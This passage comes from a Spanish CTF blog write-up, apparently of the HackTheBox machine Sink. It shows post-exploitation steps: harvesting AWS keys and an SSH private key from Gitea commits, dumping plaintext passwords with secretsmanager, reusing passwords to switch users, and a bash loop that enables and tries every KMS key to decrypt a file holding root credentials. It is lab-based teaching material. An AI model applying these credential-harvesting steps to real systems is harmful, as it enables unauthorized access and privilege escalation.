Pero al colocarlos en la web, ninguno redirecciona a ningún sitio. Y pues tiene sentido, no sabemos en qué puerto están corriendo por lo tanto no encuentra realmente lo que tiene que resolver... Pero pues tenemos credenciales y si recordamos, hay un servicio sobre el puerto `3000` (**Gitea**) con panel login (y en el cual uno de los usuarios era `root`), intentemos usar la contraseña que tenemos de `root` sobre ese login:

![313page3000_root_login](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000_root_login.png)

Yyyyy:

![313page3000_root_login_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000_root_login_done.png)

Perfecto, tamos dentro, ahoraaaaaaaaaaaaaaaaaaa a enumerar :P

---

## Enumeramos el servicio <u>Gitea</u> como el usuario <u>root</u> [📌](#gitea-root) {#gitea-root}

Nos encontramos con **4** repositorios (aunque solo se vean 3 en la imagen hay **4**):

![313page3000_root_repos](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000_root_repos.png)

```html
'root' created repository 'root/Key_Management'
2 months ago
```

O sea que tenemos:

```html
Repositorios:

* Log_Management.
* Key_Management.
* Serverless-Plugin.
* Kinesis_ElasticSearch.
```

Revisando cada uno, sus respectivos commits y contenido encontramos esto:

* El usuario `marcus` <u>es el que hace los push (sube los cambios)</u>, `root` simplemente crea los repos.

**Cositas relevantes de cada repo**:

...

### 🪕 Log_Management (commits)

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000_root_repo_logMan_commits.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Si entramos en ese commit, tenemos el `access key ID` y la `secret access key` de `AWS` (Amazon Web Services):

```php
<?php
require 'vendor/autoload.php';

use Aws\CloudWatchLogs\CloudWatchLogsClient;
use Aws\Exception\AwsException;

$client = new CloudWatchLogsClient([
        'region' => 'eu',
        'endpoint' => 'http://127.0.0.1:4566',
        'credentials' => [
                'key' => 'AKIAIUEN3QWCPSTEITJQ',
                'secret' => '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'
        ],
        'version' => 'latest'
]);
try {
$client->createLogGroup(array(
        'logGroupName' => 'Chef_Events',
));
}
catch (AwsException $e) {
    echo $e->getMessage();
    echo "\n";
}
try {
$client->createLogStream([
        'logGroupName' => 'Chef_Events',
        'logStreamName' => '20201120'
]);
}catch (AwsException $e) {
    echo $e->getMessage();
    echo "\n";
}
?>
```

Podemos tenerlo en cuenta (además del puerto `4566` sobre el `lo), ya que en el siguiente commit esos valores son remplazados:

![313page3000_root_repo_logMan_commit_prepProd](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000_root_repo_logMan_commit_prepProd.png)

...

### 🪕 Key_Management (commits)

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000_root_repo_keyMan_commits.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Ahora entremos en ese commit en concreto:

![313page3000_root_repo_keyMan_keyfound](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000_root_repo_keyMan_keyfound.png)

Nos encontramos con la **llave privada** de un usuario (posiblemente de `marcus`) guardada en el archivo `.keys/dev_keys`. 

En el mismo commit vemos como usa la llave mediante el objeto `ec2.php`:

```php
<?php

require 'vendor/autoload.php';
use Aws\Ec2\Ec2Client;

$ec2Client = new Aws\Ec2\Ec2Client([
    'region' => 'eu',
    'version' => '2020-12-21',
    'profile' => 'default',
    'endpoint' => 'http://127.0.0.1:4566'
]);

$keyPairName = 'dev_keys';

$result = $ec2Client->createKeyPair(array(
    'KeyName' => $keyPairName
));

// Save the private key
$saveKeyLocation = getenv('HOME') . ".keys/{$keyPairName}";
file_put_contents($saveKeyLocation, $result['keyMaterial']);

// Update the key's permissions so it can be used with SSH
chmod($saveKeyLocation, 0600);
```

Y para pasar a producción cambian el archivo `dev_keys` por `prod_keys`:

![313page3000_root_repo_keyMan_keychanged](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000_root_repo_keyMan_keychanged.png)

...

Bueno, pues probemos a copiarnos esa key, pasarla a un archivo, darle los permisos necesarios (`chmod 600 <file>`) e intentar acceder mediante `SSH` con alguno de los usuarios, inicialmente con `marcus` que fue el que hizo el push:

> En los demás repos no encontre nada realmente relevante :s

```bash
❭ chmod 600 dev_keys 
❭ ssh marcus@10.10.10.225 -i dev_keys 
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-53-generic x86_64)
...
```

Yyyyy estamos dentroooooooooooooooooo:

```bash
marcus@sink:~$ id
uid=1001(marcus) gid=1001(marcus) groups=1001(marcus)
marcus@sink:~$ ls
user.txt
marcus@sink:~$ ls /home
david  git  marcus
marcus@sink:~$
```

Niceeeeeeeeeeeeeeeeeee. LOCO LOCOOOOOOOOOOOOOOo lo del **smuggling**. 

Ahora si, quien sabe que nos espere :o

...

# AWS Secrets: <u>marcus</u> -> <u>david</u> [#](#movimiento-lateral) {#movimiento-lateral}

Si enumeramos servicios recordamos al puerto que habíamos visto antes, el `4566`:

```bash
marcus@sink:~$ netstat -l
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 localhost:33060         0.0.0.0:*               LISTEN
tcp        0      0 localhost:mysql         0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:x11          0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:x11-1        0.0.0.0:*               LISTEN
tcp        0      0 localhost:34833         0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:x11-2        0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:x11-3        0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:x11-4        0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:x11-5        0.0.0.0:*               LISTEN
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:x11-6        0.0.0.0:*               LISTEN
tcp        0      0 localhost:4566          0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:x11-7        0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:6008         0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:6009         0.0.0.0:*               LISTEN
tcp        0      0 localhost:smtp          0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:6010         0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:6011         0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:6012         0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:6013         0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:6014         0.0.0.0:*               LISTEN
tcp        0      0 172.17.0.1:6015         0.0.0.0:*               LISTEN
...
```

Además de muchos otros pero sobre una IP diferente que me recordo a `Docker`, enumeremos el servicio `docker` a ver que encontramos:

```bash
marcus@sink:~$ systemctl status docker
● docker.service - Docker Application Container Engine
     Loaded: loaded (/lib/systemd/system/docker.service; disabled; vendor preset: enabled)
     Active: active (running) since Wed 2021-02-24 25:25:25 UTC; 25h ago
TriggeredBy: ● docker.socket
       Docs: https://docs.docker.com
   Main PID: 1487 (dockerd)
      Tasks: 147
     Memory: 150.5M
     CGroup: /system.slice/docker.service
             ├─1487 /usr/bin/dockerd -H fd:// --containerd=/run/containerd/containerd.sock
             ├─2225 /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 4566 -container-ip 172.18.0.2 -container-port 4566
             ├─2313 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6000 -container-ip 172.17.0.2 -container-port 8080
             ├─2363 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6010 -container-ip 172.17.0.3 -container-port 8080
             ├─2394 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6007 -container-ip 172.17.0.4 -container-port 8080
             ├─2447 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6013 -container-ip 172.17.0.5 -container-port 8080
             ├─2502 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6012 -container-ip 172.17.0.6 -container-port 8080
             ├─2552 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6002 -container-ip 172.17.0.7 -container-port 8080
             ├─2594 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6011 -container-ip 172.17.0.8 -container-port 8080
             ├─2642 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6014 -container-ip 172.17.0.9 -container-port 8080
             ├─2682 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6009 -container-ip 172.17.0.10 -container-port 8080
             ├─2740 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6015 -container-ip 172.17.0.11 -container-port 8080
             ├─2780 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6006 -container-ip 172.17.0.12 -container-port 8080
             ├─2844 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6005 -container-ip 172.17.0.13 -container-port 8080
             ├─2873 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6001 -container-ip 172.17.0.14 -container-port 8080
             ├─2907 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6003 -container-ip 172.17.0.15 -container-port 8080
             ├─2953 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6008 -container-ip 172.17.0.16 -container-port 8080
             └─3115 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6004 -container-ip 172.17.0.17 -container-port 8080
marcus@sink:~$ 
```

Opa, vemos que esta corriendo varios contenedores, al inicio tenemos al que estamos buscando:

```bash
...
├─2225 /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 4566 -container-ip 172.18.0.2 -container-port 4566
...
```

Bien, sabemos que es un contenedor. Validemos que esta corriendo sobre él:

```bash
marcus@sink:~$ curl http://localhost:4566 ; echo
{"status": "running"}
```

Esta respuesta me acordó a la máquina:

<details>
  <summary><strong>Spoiler: Nombre de la otra máquina</strong></summary>
  
  <code>Bucket</code>

</details>

En la que también jugábamos con `AWS` y contenedores. 

Podemos hacer dos cosas, un `Remote Port Forwarding` (redireccionamiento de puertos) y validar con `nmap` si encontramos algo y además hacer algo de `fuzzing` para ver si hay otras rutas... O podemos volver a hablar de la máquina (**del spoiler**) y recordar que en el fuzzing hecho allá, obteníamos la ruta `/health` que nos sirve para validar el rendimiento y disponibilidad de los recursos de **AWS**.

* [¿Qué es AWS Health?](https://docs.aws.amazon.com/es_es/health/latest/ug/what-is-aws-health.html)

Entonces podemos hacer una petición ahora junto al `/health` y ver que servicios (y su estado) esta corriendo `AWS`:

```bash
marcus@sink:~$ curl http://localhost:4566/health ; echo
{"services": {"logs": "running", "secretsmanager": "running", "kms": "running"}}
```

Perfectowowo e.e Pues tenemos 3 servicios activos y corriendo:

* [logs](https://docs.aws.amazon.com/cli/latest/reference/logs/index.html)
* [secretsmanager](https://docs.aws.amazon.com/cli/latest/reference/secretsmanager/index.html)
* [kms](https://docs.aws.amazon.com/cli/latest/reference/kms/index.html)

Y podemos apoyarnos del `API` de `Amazon Web Services (aws)` para jugar con lo que encontramos y ver si podemos sacar algo importante:

Probemos con [logs](https://docs.aws.amazon.com/cli/latest/reference/logs/index.html) primero, intentemos ver la descripción de los grupos de logs creados:

```bash
marcus@sink:~$ aws --endpoint-url=http://localhost:4566 --region us-east-1 logs describe-log-groups
Unable to locate credentials. You can configure credentials by running "aws configure".
```

Si ejecutamos ese comando nos pide:

```bash
marcus@sink:~$ aws configure
AWS Access Key ID [None]:
AWS Secret Access Key [None]:
Default region name [None]:
Default output format [None]:
```

Si recordamos en `Gitea` habíamos encontrado un commit que tenía esta información, busquémosla y pongámosla acá...

```php
...
$client = new CloudWatchLogsClient([
        'region' => 'eu',
        'endpoint' => 'http://127.0.0.1:4566',
        'credentials' => [
                'key' => 'AKIAIUEN3QWCPSTEITJQ',
                'secret' => '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'
        ],
        'version' => 'latest'
]);
...
```

**(Aunque para comprobar el funcionamiento coloque primero cualquier valor en los dos y aun así me trajo la información, así que no es necesaria esta config (supongo))**

```bash
marcus@sink:~$ aws configure
AWS Access Key ID [None]: asd
AWS Secret Access Key [None]: asdfsadf
Default region name [None]: us-east-1
Default output format [None]: json
```

* [¿Dónde se guardan las configuraciones hechas mediante **AWS CLI**?](https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-files.html#cli-configure-files-where).

Y si ejecutamos de nuevo:

```json
marcus@sink:~$ aws --endpoint-url=http://localhost:4566 logs describe-log-groups
{
    "logGroups": [
        {
            "logGroupName": "cloudtrail",
            "creationTime": 1614265741999,
            "metricFilterCount": 0,
            "arn": "arn:aws:logs:us-east-1:000000000000:log-group:cloudtrail",
            "storedBytes": 91
        }
    ]
}
```

Listones, si jugamos así con algunos parámetros podremos ir descubriendo info.

Ahora veamos algo de [secretsmanager](https://docs.aws.amazon.com/cli/latest/reference/secretsmanager/index.html):

```json
marcus@sink:~$ aws --endpoint-url=http://localhost:4566 secretsmanager list-secrets
{
    "SecretList": [
        {
            "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jenkins Login-AZIdv",
            "Name": "Jenkins Login",
            "Description": "Master Server to manage release cycle 1",
            "KmsKeyId": "",
            "RotationEnabled": false,
            "RotationLambdaARN": "",
            "RotationRules": {
                "AutomaticallyAfterDays": 0
            },
            "Tags": [],
            "SecretVersionsToStages": {
                "53cf9fdf-cb47-4b35-9ba1-046bcb43cfb6": [
                    "AWSCURRENT"
                ]
            }
        },
        {
            "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Sink Panel-ILKxI",
            "Name": "Sink Panel",
            "Description": "A panel to manage the resources in the devnode",
            "KmsKeyId": "",
            "RotationEnabled": false,
            "RotationLambdaARN": "",
            "RotationRules": {
                "AutomaticallyAfterDays": 0
            },
            "Tags": [],
            "SecretVersionsToStages": {
                "97d47d9b-6e95-459e-a0b4-60411a9054d2": [
                    "AWSCURRENT"
                ]
            }
        },
        {
            "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jira Support-fKqdR",
            "Name": "Jira Support",
            "Description": "Manage customer issues",
            "KmsKeyId": "",
            "RotationEnabled": false,
            "RotationLambdaARN": "",
            "RotationRules": {
                "AutomaticallyAfterDays": 0
            },
            "Tags": [],
            "SecretVersionsToStages": {
                "b07ec8cf-4f71-41bb-b20b-023d874be8a9": [
                    "AWSCURRENT"
                ]
            }
        }
    ]
}
```

Obtenemos 3 plataformas:

* Jenkins Login: Master Server to manage release cycle 1.
* Sink Panel: A panel to manage the resources in the devnode.
* Jira Support: Manage customer issues.

Si intentamos ver alguna data en concreto (los secretos) podemos hacerlo usando el ID, que sería el valor `"ARN"`. 

Por ejemplo, veamos el valor secreto de **Jenkins Login** (`get-secret-value`):

🛹 **<u>Jenkins Login</u>**.

```bash
marcus@sink:~$ aws --endpoint-url=http://localhost:4566 secretsmanager get-secret-value --secret-id "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jenkins Login-AZIdv"
{
    "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jenkins Login-AZIdv",
    "Name": "Jenkins Login",
    "VersionId": "53cf9fdf-cb47-4b35-9ba1-046bcb43cfb6",
    "SecretString": "{\"username\":\"john@sink.htb\",\"password\":\"R);\\)ShS99mZ~Bj\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": 1614230338
}
```

Opa, el valor secreto son unas credenciales:

* `john@sink.htb` : `R);\\)ShS99mZ~Bj` o `R);\)ShS99mZ~Bj`

Antes de ver si son funcionales, validemos con los otros 2 IDs para ver que tienen:

🛹 **<u>Sink Panel</u>**.

```bash
marcus@sink:~$ aws --endpoint-url=http://localhost:4566 secretsmanager get-secret-value --secret-id "arn:aws:secretsmanager:us-east-1:1234567890:secret:Sink Panel-ILKxI"
{
    "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Sink Panel-ILKxI",
    "Name": "Sink Panel",
    "VersionId": "97d47d9b-6e95-459e-a0b4-60411a9054d2",
    "SecretString": "{\"username\":\"albert@sink.htb\",\"password\":\"Welcome123!\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": 1614230338
}
```

* `albert@sink.htb` : `Welcome123!`

🛹 **<u>Jira Support</u>**.

```bash
marcus@sink:~$ aws --endpoint-url=http://localhost:4566 secretsmanager get-secret-value --secret-id "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jira Support-fKqdR"
{
    "ARN": "arn:aws:secretsmanager:us-east-1:1234567890:secret:Jira Support-fKqdR",
    "Name": "Jira Support",
    "VersionId": "b07ec8cf-4f71-41bb-b20b-023d874be8a9",
    "SecretString": "{\"username\":\"david@sink.htb\",\"password\":\"EAL8=bcC=`a7f2#k\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": 1614230338
}
```

* `david@sink.htb` : `EAL8=bcC=`a7f2#k`

Acá `david` es interesante porque lo tenemos presente como usuario de `Gitea` y también como usuario de la propia máquina. Validemos en el panel login de `Gitea` estas credenciales:

![313page3000_david_dashboard](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page3000_david_dashboard.png)

Son funcionales. Probemos si podemos hacer reutilización de contraseñas e intentemos migrarnos a `david` pero desde el sistema:

```bash
marcus@sink:~$ su david
Password: 
david@sink:/home/marcus$ whoami
david
david@sink:/home/marcus$ id
uid=1000(david) gid=1000(david) groups=1000(david)
david@sink:/home/marcus$ 
```

**Perfectoooooooooooooooooooooooooooooooooooo, somos `david` ahora (:**

Antes, veamos si hay algo importante usando `kms` con `AWS CLI`:

```bash
marcus@sink:~$ aws --endpoint-url=http://localhost:4566 kms list-keys
{
    "Keys": [
        { 
            "KeyId": "0b539917-5eff-45b2-9fa1-e13f0d2c42ac",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/0b539917-5eff-45b2-9fa1-e13f0d2c42ac"
        },
        { 
            "KeyId": "16754494-4333-4f77-ad4c-d0b73d799939",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/16754494-4333-4f77-ad4c-d0b73d799939"
        },
        { 
            "KeyId": "2378914f-ea22-47af-8b0c-8252ef09cd5f",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/2378914f-ea22-47af-8b0c-8252ef09cd5f"
        },
        { 
            "KeyId": "2bf9c582-eed7-482f-bfb6-2e4e7eb88b78",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/2bf9c582-eed7-482f-bfb6-2e4e7eb88b78"
        },
        { 
            "KeyId": "53bb45ef-bf96-47b2-a423-74d9b89a297a",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/53bb45ef-bf96-47b2-a423-74d9b89a297a"
        },
        { 
            "KeyId": "804125db-bdf1-465a-a058-07fc87c0fad0",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/804125db-bdf1-465a-a058-07fc87c0fad0"
        },
        { 
            "KeyId": "837a2f6e-e64c-45bc-a7aa-efa56a550401",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/837a2f6e-e64c-45bc-a7aa-efa56a550401"
        },
        { 
            "KeyId": "881df7e3-fb6f-4c7b-9195-7f210e79e525",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/881df7e3-fb6f-4c7b-9195-7f210e79e525"
        },
        {
            "KeyId": "c5217c17-5675-42f7-a6ec-b5aa9b9dbbde",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/c5217c17-5675-42f7-a6ec-b5aa9b9dbbde"
        },
        {
            "KeyId": "f0579746-10c3-4fd1-b2ab-f312a5a0f3fc",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/f0579746-10c3-4fd1-b2ab-f312a5a0f3fc"
        },
        {
            "KeyId": "f2358fef-e813-4c59-87c8-70e50f6d4f70",
            "KeyArn": "arn:aws:kms:us-east-1:000000000000:key/f2358fef-e813-4c59-87c8-70e50f6d4f70"
        }
    ]
}
```

Tenemos unas **keys**, no sé si sean relevantes, pero pues para tenerlas en cuenta, de los otros parámetros no podemos obtener algo. Sigamos...

...

# Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

En el `/home` de `david` tenemos un par de carpetas que nos llevan a un objeto`.enc`:

```bash
david@sink:~$ ls
Projects
david@sink:~$ cd Projects/
david@sink:~/Projects$ ls
Prod_Deployment
david@sink:~/Projects$ cd Prod_Deployment/
david@sink:~/Projects/Prod_Deployment$ ls
servers.enc
david@sink:~/Projects/Prod_Deployment$ file servers.enc 
servers.enc: data
```

Intentando crackearlo no hacemos nada :P Veamos que podemos relacionar para leer el archivo.

Bueno, buscando encontramos como se pudo haber generado el archivo mediante `aws`:

* [How to encrypt and decrypt with **AWS CLI**](https://aws.amazon.com/blogs/security/how-to-encrypt-and-decrypt-your-data-with-the-aws-encryption-cli/).

Podemos ver que para generar el archivo se usa un `keyId` yyyyyyy anteriormente encontramos varios `keyId`s. **Tengamos esto presente**...

No contamos con `aw, pero mediante `kms` tenemos varias funciones para jugar con los `keyId`, una llamada [decrypt](https://docs.aws.amazon.com/cli/latest/reference/kms/decrypt.html):

* [AWS CLI **kms decrypt**](https://docs.aws.amazon.com/cli/latest/reference/kms/decrypt.html).

Entonces, según la documentación el argumento obligatorio seria:

* `--ciphertext-blob fileb://`: Que ahí le indicamos la ruta del archivo `.enc`

Podemos intentar desencriptar el archivo `servers.enc`:

```bash
# Con ruta absoluta:
david@sink:~$ aws --endpoint-url=http://localhost:4566 kms decrypt --ciphertext-blob fileb://home/david/Projects/Prod_Deployment/servers.enc 

Error parsing parameter '--ciphertext-blob': Unable to load paramfile fileb://home/david/Projects/Prod_Deployment/servers.enc: [Errno 2] No such file or directory: 'home/david/Projects/Prod_Deployment/servers.enc'
```

```bash
# Escapando la ruta absoluta:
david@sink:~$ aws --endpoint-url=http://localhost:4566 kms decrypt --ciphertext-blob fileb:///home/david/Projects/Prod_Deployment/servers.enc 

An error occurred (AccessDeniedException) when calling the Decrypt operation: The ciphertext refers to a customer master key that does not exist, does not exist in this region, or you are not allowed to access.
```

Pero nada, solo vemos errores, entiendo que debemos indicarle la `keyId`, elijamos cualquiera y veamos que sucede:

```bash
david@sink:~$ aws --endpoint-url=http://localhost:4566 kms decrypt --key-id "f0579746-10c3-4fd1-b2ab-f312a5a0f3fc" --ciphertext-blob fileb:///home/david/Projects/Prod_Deployment/servers.enc 

An error occurred (DisabledException) when calling the Decrypt operation: f0579746-10c3-4fd1-b2ab-f312a5a0f3fc is disabled.
```

Nos indica que la operación `Decrypt` esta inhabilitada para esa `key`, leyendo de nuevo la doc de **kms** hay un argumento para habilitar una `key`, probemos a ver si de eso se trata el error:

```bash
# Habilitamos
david@sink:~$ aws --endpoint-url=http://localhost:4566 kms enable-key --key-id "f0579746-10c3-4fd1-b2ab-f312a5a0f3fc"

# Ejecutamos de nuevo
david@sink:~$ aws --endpoint-url=http://localhost:4566 kms decrypt --key-id "f0579746-10c3-4fd1-b2ab-f312a5a0f3fc" --ciphertext-blob fileb:///home/david/Projects/Prod_Deployment/servers.enc 

An error occurred (InvalidCiphertextException) when calling the Decrypt operation: 
```

Obtenemos un error diferente, relacionado posiblemente a la desencriptación en concreto (` Invalid Ciphertext`) o quizás a que esa `key` no es la necesaria para ese archivo... 

Creémonos un script para que nos valide con todas las keys.

Las extraemos:

![313bash_davidSH_listkeys_grep_cut](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313bash_davidSH_listkeys_grep_cut.png)

En el script las guardaremos en un archivo temporal para ir leyendo cada una, ahora si hagamos el archivo:

* Agregaremos los argumentos `--output text` y `--query Plaintext` (***These parameters extract the decrypted data, called the plaintext, from the command's output.***)

---

```bash
#!/bin/bash

# Generamos el archivo con las keys
aws --endpoint-url=http://localhost:4566 kms list-keys | grep KeyId | cut -d '"' -f 4 > keys.tmp
file_with_keys=./keys.tmp

while read keyId; do  # Tomamos cada llave del archivo
    # Habilitamos la llave
    aws --endpoint-url=http://localhost:4566 kms enable-key --key-id "$keyId" 2>/dev/null

    echo -ne "\n$keyId:"
    # Desencriptamos el archivo servers.enc
    aws --endpoint-url=http://localhost:4566 kms decrypt --key-id "$keyId" --ciphertext-blob fileb:///home/david/Projects/Prod_Deployment/servers.enc --output text --query Plaintext
done < $file_with_keys

shred -zun 10 $file_with_keys
```

Pero no obtenemos nada...

![313bash_davidSH_valkeria_fail](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313bash_davidSH_valkeria_fail.png)

Probemos a jugar con los métodos de encriptación:

```html
> Specifies the encryption algorithm that will be used to decrypt the ciphertext.
>> Possible values:
>>
>>    SYMMETRIC_DEFAULT
>>    RSAES_OAEP_SHA_1
>>    RSAES_OAEP_SHA_256
```

Entonces adecuando esto a nuestro script quedaría:

```bash
#!/bin/bash

# Generamos el archivo con las keys
aws --endpoint-url=http://localhost:4566 kms list-keys | grep KeyId | cut -d '"' -f 4 > keys.tmp
file_with_keys=./keys.tmp
types_algorithms=( SYMMETRIC_DEFAULT RSAES_OAEP_SHA_1 RSAES_OAEP_SHA_256 )

while read keyId; do
    echo -e "\n[+] Llave: $keyId:"
    for algorithm in "${types_algorithms[@]}"; do # Tomamos cada algoritmo del array y probamos
        echo -ne "[*] Algoritmo: $algorithm"

        # Habilitamos la llave
        aws --endpoint-url=http://localhost:4566 kms enable-key --key-id "$keyId" 2>/dev/null

        # Desencriptamos el archivo servers.enc
        aws --endpoint-url=http://localhost:4566 kms decrypt --key-id "$keyId" --ciphertext-blob fileb:///home/david/Projects/Prod_Deployment/servers.enc --output text --query Plaintext --encryption-algorithm $algorithm
    done
done < $file_with_keys

shred -zun 10 $file_with_keys
```

Ejecutamos yyyy:

```bash
david@sink:/dev/shm/testest$ ./valkeria.sh

[+] Llave: 0b539917-5eff-45b2-9fa1-e13f0d2c42ac:
[*] Algoritmo: SYMMETRIC_DEFAULT

An error occurred (InvalidCiphertextException) when calling the Decrypt operation: 
[*] Algoritmo: RSAES_OAEP_SHA_1

An error occurred (InvalidCiphertextException) when calling the Decrypt operation:
...
```

![313bash_davidSH_valkeria_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313bash_davidSH_valkeria_done.png)

Opaaaaaaa, logramos desencriptar el archivo y ver el contenido, tenemos una cadena en `base64`:

* La llave: `804125db-bdf1-465a-a058-07fc87c0fad0`.
* El tipo de algoritmo: `RSAES_OAEP_SHA_256`.

Si intentamos decodear esa string obtenemos:

![313bash_tryingdecodebase64stringwithecho](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313bash_tryingdecodebase64stringwithecho.png)

No obtenemos nada legible, pero de una vez pensé en que posiblemente sea data de algún archivo, entonces tomemos el resultado del decode y guardémoslo en un archivo y veamos que tipo de archivo es:

```bash
...
glEwRAEATgL7TAAoAAA=" | base64 -d > result_b64
```

```bash
❭ file result_b64 
result_b64: gzip compressed data, from Unix, original size modulo 2^32 10240
```

Bien, un archivo comprimido, descomprimámoslo:

```bash
❭ gzip -d result_b64
gzip: result_b64: unknown suffix -- ignored
```

Jmmm, buscando en internet sobre este error, encontramos un foro donde alguien recomienda usar `zcat`:

* [Try to use **zcat**](https://www.linuxquestions.org/questions/linux-software-2/gunzip-unknown-suffix-ignored-940698/).

¿Pero por qué `zcat`?

📁 ***Normalmente, los archivos comprimidos con `gzip` se pueden restaurar a su forma original con los comandos `gzip -d` o `gunzip`. ¿<u>Qué sucede si desea ver el contenido de un archivo comprimido sin descomprimirlo</u>? Para este propósito, necesita la utilidad `zcat`***. [linux-console](https://es.linux-console.net/?p=243)

📂 ***`zcat` will uncompress files that have the correct magic number whether they have a `.gz` suffix or <u>not</u>***. [linuxquestions.org](https://www.linuxquestions.org/questions/linux-software-2/gunzip-unknown-suffix-ignored-940698/#post4657625)

Entonces, si probamos ahora con `zcat`:

![313bash_zcatdecompress_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313bash_zcatdecompress_done.png)

Eaaa, tenemos un archivo `.yml`, donde en su contenido nos encontramos con unas credenciales del usuario `admin`. Probémoslas contra el usuario `root` en la máquina:

```bash
david@sink:/dev/shm/testest$ su root
Password: 
root@sink:/dev/shm/testest# id
uid=0(root) gid=0(root) groups=0(root)
```

Somos **roooooooooooooooooooooooooooooooooooooooot** (bueno, veamos si realmente lo somos):

```bash
root@sink:/dev/shm/testest# cd
root@sink:~# ls
automation  desync  docker-compose.yml  root.txt  snap
```

SÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍ somos administradores del sistemaaaaaaaaa (: 

Solo nos quedaría ver las flags...

![313flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313flags.png)

...

¡Qué locura eh!

Me gusto demasiado la máquina (: Lo que más me dejo loco fue el `HTTP Request Smuggling`. 

Que bonito fue este camino. el jugar con `aws` de esa manera, increíble. Y nada, como siempre, muchas gracias por leer (este si fue gigante)...

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313google_gif_youarethebestTED.gif" style="display: block; margin-left: auto; margin-right: auto; width: 50%;"/>

Yyyy a seguir rompiendo todo (: 